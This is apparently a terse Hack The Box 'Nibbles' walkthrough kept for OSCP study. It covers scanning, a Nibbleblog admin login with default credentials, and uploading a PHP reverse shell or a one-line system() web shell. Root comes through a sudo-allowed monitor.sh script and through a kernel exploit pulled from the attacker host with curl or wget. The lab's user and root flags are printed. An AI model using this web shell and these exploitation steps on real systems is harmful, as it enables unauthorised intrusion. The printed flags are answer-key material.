nibbles


nmap
nmap -sV -sC -oA nibbles 10.10.10.75
http


this is why its always worth checking the source code of the websites we're enumerating,
lets look at what has
gobuster
/admin

initial foothold
default credentials to nibbleblog admin
trying username admin and password nibbles default credentials logs us inwe can also brute force the password with hydra/intruder

upload pic

upload our php reverse shell script from our /opt/shell directory and change the parameters to call back to our machine
(You can Ignore the warnings when you upload the file)


Next navigate to the location where the script is stored so the webpage runs it

OR upload cmd.php for RCE
we can also upload a system call written in php to get remote code execution on the server<php echo system($_REQUEST['cmd']) ?>


run the script through the browser and we have code execution

reverse shell

privesc through monitor.sh file creation
Lets run sudo -l and see what functions we can call as sudo without a password:
Seems there is a file called monitor.sh that we can call as root without a password, lets see what it is...

vi monitor.sh
lets make our script executable with chmod and run it as root:

Success!
priv esc through rationallove kernel exploit
copy raw data fromrationallove/gitlibc
vi rationallove.c -> paste raw
setup httpserver

-as nibbles: curl -o <filename.c> rationallove.c 10.10.14.62:<httpserverport>/rationallove.c
or
wget 10.10.14.62:5555/rationallove.c


and compile it on the victim machine
gcc -o <exefilename> <filename.c>

run ./<exefilename>


root
rationallove.c
its 977 lines of code so I'm not gonna paste it all here, look it up if you'd like herehttps://www.exploit-db.com/exploits/43775
user/root

b02ff32bb332deba49eeaed21152c8d8

b6d745c0dfb6457c55591efc898ef88c
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/